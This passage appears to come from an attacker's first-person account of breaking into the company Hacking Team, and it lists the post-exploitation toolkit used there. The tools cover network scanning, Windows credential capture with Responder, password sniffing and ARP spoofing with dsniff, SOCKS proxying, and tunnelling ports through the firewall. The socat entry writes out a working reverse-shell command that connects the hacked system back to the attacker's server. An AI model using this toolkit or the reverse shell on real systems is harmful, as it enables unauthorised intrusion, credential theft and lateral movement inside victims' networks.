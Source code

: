 The post-exploitation tools I had prepared were:

1) busybox

   For all common UNIX utilities that the system did not have.

2) nmap

   To scan and fingerprint the internal network of Hacking Team.

3) Responder.py

   The most useful tool to attack Windows networks when you have access to
   the internal network but you do not have a domain user.

4) Python

   To run Responder.py

5) tcpdump

   To sniff traffic.

6) dsniff

   To spy passwords of weak protocols like ftp, and to do
   arpspoofing. I wanted to use ettercap, written by the same ALoR and NaGA of
   Hacking Team, but it was difficult to compile it for the system.

7) socat

   For a comfortable shell with pty:
   my_server: socat file: `tty`, raw, echo = 0 tcp-listen: my_port
   hacked system: socat exec: 'bash -li', pty, stderr, setsid, sigint, sane \
		        tcp: my_server: my_port

   And for many other things, it's a Swiss army knife. See the section on
   examples of your documentation.

8) screen

   Like the socat pty, it's not strictly necessary, but I wanted to feel
   at home in the Hacking Team networks.

9) a SOCKS proxy server

   To use together with proxychains to access the internal network with any
   another program

10) tgcd

   To resend ports, such as the SOCKS server, through the firewall.

[1] https://www.busybox.net/
[2] https://nmap.org/
[3] https://github.com/SpiderLabs/Responder
[4] https://github.com/bendmorris/static-python
[5] http://www.tcpdump.org/
[6] http://www.monkey.org/~dugsong/dsniff/
[7] http://www.dest-unreach.org/socat/
[8] https://www.gnu.org/software/screen/
[9] http://average-coder.blogspot.com/2011/09/simple-socks5-server-in-c.html
[10] http://tgcd.sourceforge.net/
